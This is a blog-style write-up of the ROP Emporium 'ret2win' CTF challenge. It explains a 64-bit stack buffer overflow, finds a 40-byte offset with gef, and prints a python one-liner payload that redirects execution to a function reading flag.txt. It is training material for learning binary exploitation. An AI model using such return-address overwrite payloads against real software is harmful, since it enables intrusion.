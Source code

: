 ```yaml
---
layout: post
title:  "ROPEmorium - Ret2win"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "Doing these challenges to improve my binary exploitation skills and teach my self Return oriented programming (ROP) These challenges use the usual CTF objective of retrieving the contents of a file named flag.txt from a remote machine by exploiting a given binary"

comments: true
---
```



## Introduction
Doing these challenges to improve my binary exploitation skills and teach my self Return oriented programming (ROP).These challenges use the usual CTF objective of retrieving the contents of a file named "flag.txt" from a remote machine by exploiting a given binary.ROP theory is out of scope of this article, If you want ROP theory there are lot of good resources out there.

## Description 
Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.
Click below to download the binary. 

### About the Binary:
Our binary is usual ELF executable in 64-bit architecture. 

![source-01](/img/Screenshot_2020-05-09_11-12-06.png){: .align-left}


PIE isn't enabled so the binary will be loaded at a fixed location into memory (0x400000) everytime. With nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with GDB and dump the functions.
```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x00000000004005a0  _init
0x00000000004005d0  puts@plt
0x00000000004005e0  system@plt
0x00000000004005f0  printf@plt
0x0000000000400600  memset@plt
0x0000000000400610  __libc_start_main@plt
0x0000000000400620  fgets@plt
0x0000000000400630  setvbuf@plt
0x0000000000400640  __gmon_start__@plt
0x0000000000400650  _start
0x0000000000400680  deregister_tm_clones
0x00000000004006c0  register_tm_clones
0x0000000000400700  __do_global_dtors_aux
0x0000000000400720  frame_dummy
0x0000000000400746  main
0x00000000004007b5  pwnme
0x0000000000400811  ret2win
0x0000000000400840  __libc_csu_init
0x00000000004008b0  __libc_csu_fini
0x00000000004008b4  _fini
```
Here we can see interesting functions:
- main()
- pwnme()
- ret2win()

So lets see what this fucntions does!

**main():


![source-01](/img/Screenshot_2020-05-09_11-15-15.png){: .align-left}


So The main function  uses puts() to output a some texts, then calls the pwnme(), the texts we get when we run the program first time.


**pwnme():


![source-01](/img/Screenshot_2020-05-09_11-16-18.png){: .align-left}


We see that the pwnme function allocates a 32 byte (0x20 hex) area of memory.fgets function that will get 50 bytes from standard input into the buffer.
This function takes user input using fgets(), and stores it in a  buffer of size 32. There is no bound check on the buffer, it is pretty clear that there is a is a stack bufferoverlow.


**ret2win()


![source-01](/img/Screenshot_2020-05-09_11-17-39.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way Lets start the fun part.
Run the binary and enter some input

I enter 'welcome' and the program just exits, as expected. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted(crashed),we have a valid crash scenario here,but we are not sure if we overwritten any registers.So lets attach the binary to gdb and work on exploit.

Attach the binary to GDB using gdb -q return2win

## Calculating offset
Generate cylic pattern using gef and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}


# Exploiting:

We have 40 bytes to fill the stack and then we need to put the address of the ret2win function.So that the saved return address will contain the address of the ret2win function (0x400811), and the program  execute the function.

The exploit then will look as follows:

**Payload: 

The payload will be very simple:

[40 chars of junk] + [address of ret2win]
"A"*40             + "\x11\x08\x40"

**Here is my final exploit:

> python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00"' | ./ret2win


![source-01](/img/Screenshot_2020-05-09_15-53-55.png){: .align-left}



Putting it all together,and i developed the exploit with pwntools


![source-01](/img/Screenshot_2020-05-09_16-20-05.png){: .align-left}


w00t we got the flag!

### ~ End ~
Thats the end of ret2win challenge, as i progress through the challenges the exploits will become more complex and fun.Remember never stop learning, Cheers!.
> Exploit code for this challenge is on my github 



